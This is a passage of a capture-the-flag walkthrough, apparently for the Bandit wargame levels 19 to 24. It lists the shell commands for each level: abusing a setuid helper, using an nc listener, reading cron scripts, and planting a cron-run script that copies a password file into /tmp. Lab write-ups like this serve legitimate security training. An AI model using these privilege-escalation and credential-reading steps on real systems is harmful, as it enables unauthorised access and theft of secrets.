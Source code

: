 ## level 19 -> level 20
```shell
ls -a
./bandit20-do id
./bandit20-do cat /etc/bandit_pass/bandit20
```

## level 20 -> level 21
```shell
# shell 1
nc -lnvp 7777
[bandit20 password] (enter)
# shell 2
./suconnect 7777
(print bandit21 password)
```

## level 21 -> level 22
```shell
cd /etc/cron.d
ls
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/xxxxxxxxxxxxxxxxxxxxxx
```

## level 22 -> level 23
```shell
ls
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
# new shell script
# myname = 'bandit23'
# mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
# echo $mytarget
```
```shell
ls
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

## level 23 -> level 24
```shell
cd /etc/cron.d
ls
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh

echo "cat /etc/bandit_pass/bandit24 > /tmp/normal_test" > normal.sh
cat normal.sh
chmod 777 normal.sh
# ...wait
cat /tmp/normal_test
```
